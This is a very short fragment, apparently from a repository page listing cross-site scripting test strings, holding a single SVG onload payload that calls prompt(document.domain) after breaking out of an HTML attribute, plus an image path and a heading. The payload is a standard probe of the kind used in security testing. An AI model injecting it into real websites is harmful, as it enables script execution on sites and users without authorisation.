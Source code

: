 ---svg-onload--prompt-document.domain----
=========================================

">&lt;svg onload="prompt(document.domain);">
